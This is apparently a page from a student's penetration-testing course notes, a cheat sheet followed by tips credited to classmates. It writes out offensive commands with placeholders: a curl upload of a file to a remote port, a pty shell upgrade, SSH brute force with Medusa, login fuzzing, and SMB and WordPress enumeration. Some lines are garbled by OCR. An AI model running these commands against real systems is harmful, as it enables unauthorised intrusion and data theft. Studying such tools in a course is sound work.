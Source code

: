 
## File upload with curl
	curl --data-binary @FILE DEST:PORT/FILENAME
## Python shell
	import pty;pty.spawn('/bin/bash## MySQL basic usage
	mysql -l LOGIN -pPASSWORD -e COMMAND
commands: 
	'show databases'
	'use DATABASE;show tables'
	'use DATABASE;select * from TABLE'	

## SSH Local port forwarding
Opens local_port to forward_ip:port, connecting via_host
	ssh -L local_port:forward_ip:port via_host
Open a port 8080 here to connect to target.com'salhost:1234
	ssh -L 8080:localhost:1234 user@target.com
c) Peer review
Here are some good catches and useful commands from classmates:

Nikita Ponomarev:
https://nikitushka.github.io/
Special props to Nikita for tipping about Flask usage for fuzzing tests!

Ghidra binary decompiler (cincan run):
	cincan run cincan/ghidra-decompiler decompile PROGRAM
Hashcat benchmark:
	hashcat -b
Wfuzz web application fuzzer:
	wfuzz -w WORDLIST -d "username=admin&password=FUZZ" IPADDRESS:PORT
Caius Juvonen:
https://caiusinfo.data.blog/

Medusa login fuzzer:
	medusa -h HOSTIP -u USERNAME -P PWDDICT -M ssh -t 100 -O OUTFILE
	-t = tries/second
Nmap treat hosts online '-Pn':
	nmap -Pn -A -oA OUTFILE TARGETIP
Nikto web server scanner: https://github.com/sullo/nikto
	nikto -Display 1234V -Tuning 6x -o niktoskan.html -Format htm -host 10.10.10.165
	-Tuning 6x = disable DoS
Arttu Talvio:
https://arttuslinux.wordpress.com/

Dirbuster:
	dirb IPADDRESS
Wordpress site enumeration:
	wpscan -v --url IPADDRESS
SMB fileserver protocol mapping and client usage:
	smbmap -H IP ADDRESS
	smbclient //IPADDRESS/DIR
Niko Heiskanen:
https://heiskane.github.io/
